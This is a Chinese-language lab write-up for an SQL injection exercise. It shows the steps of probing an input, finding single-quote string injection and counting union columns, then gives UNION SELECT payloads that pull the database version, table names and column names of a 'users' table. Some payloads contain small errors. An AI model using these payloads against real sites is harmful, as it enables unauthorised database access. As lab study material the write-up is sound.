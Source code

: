 # SQL-lab
sql注入全部解析

## 1. 先看题，要求输入一个数字

* 入乡随俗，试一试

![image](https://user-images.githubusercontent.com/76896357/114820853-429a7f80-9df2-11eb-8e69-c9e68400ed5d.png)

__很显然，会有回显__

* 接下来自由发挥，再输入一个2试试，又变了

![image](https://user-images.githubusercontent.com/76896357/114821024-84c3c100-9df2-11eb-8834-2cd998dc279e.png)

* 接下来，接下来试一试他的闭合方式

![image](https://user-images.githubusercontent.com/76896357/114821235-d409f180-9df2-11eb-8fbe-c14697352895.png)

__添加完单引号，根据报错的回显，发现他是单引号闭合方式，并且是字符型注入__

* 再看一下有几列，看看有哪几列可以回显

![image](https://user-images.githubusercontent.com/76896357/114821673-80e46e80-9df3-11eb-9d21-9c59ca3d3226.png)

**在这里我输入了六列进行联合查询，但是显示没有六列，那么就截一半**

![image](https://user-images.githubusercontent.com/76896357/114821812-b4bf9400-9df3-11eb-9986-d1e0bb9349bc.png)

**根据回显，我们发现，第二列和第三列是可以回显的**

> 现在我们就可以查到我们想要的内容

#### 查询数据库版本和库名称
```
-1' union select 1,version,database() --+//要让前边为错“-1”，不让数据库执行前边的语句
```

![image](https://user-images.githubusercontent.com/76896357/114821977-f9e3c600-9df3-11eb-95ca-17e5b48cce94.png)

#### 查询表名
```
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+//group_concat,查询显示所有结果
```

![image](https://user-images.githubusercontent.com/76896357/114822963-690dea00-9df5-11eb-962c-c757254f70e4.png)

#### 查询列名
```
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name=database() and table_name='users' --+
```
